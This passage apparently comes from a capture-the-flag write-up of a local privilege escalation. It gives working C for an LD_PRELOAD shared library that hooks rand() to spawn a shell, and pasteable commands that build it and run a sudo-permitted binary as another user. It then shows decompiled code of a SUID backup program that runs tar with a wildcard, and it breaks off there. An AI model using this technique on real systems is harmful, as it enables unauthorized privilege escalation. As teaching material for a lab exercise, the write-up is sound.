 We can run the dice program as bryan and it keeps the LD_PRELOAD enviroment variable, the getenv call displayed in the strace is bad news, so we will hook it too in our shared library.

>```C
>char *getenv(cont char *name){
>	return 0;
>}
>int rand(){
>	system("/bin/bash");
>	return 4; //guaranteed to be random
>}
>```

Pasteable commands to escalate to bryan:

>```bash
>cd /tmp;
>echo 'char *getenv(const char *name){' > rand.c;
>echo 'return 0;' >> rand.c;
>echo '}' >> rand.c;
>echo 'int rand(){' >> rand.c;
>echo 'system("/bin/bash");' >> rand.c;
>echo 'return 4;' >> rand.c;
>echo '}' >> rand.c;
>gcc -fPIC -c rand.c -o rand.o;
>gcc -shared -o rand.so rand.o;
>cd /usr/local/bin;
>sudo -u bryan LD_PRELOAD=/tmp/rand.so ./dice;
>
>```

You might get path errors for gcc, just use: 

>```
>export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
>```

## bryan 

Now that we are bryan we can run the suid binary "backup" as sean. Opening it in IDA reveals the command it runs: 

>```C
>int __cdecl main(int argc, const char **argv, const char **envp)
>{
>  setresuid(1002u, 1002u, 1002u);
>  setresgid(1002u, 1002u, 1002u);
>  puts(" * Securing environment");
>  puts(" * Performing database backup...");
>  system("PATH=/usr/local/bin:/bin:/usr/bin:/usr/local/sbin:/usr/sbin; cd /usr/share/nginx/serverchecker/storage; /bin/tar -zvcf /home/sean/backup_$(/bin/date +\"%Y%m%d\").tar.gz *;");
>  return puts(" * Backup done!");
>}
>```
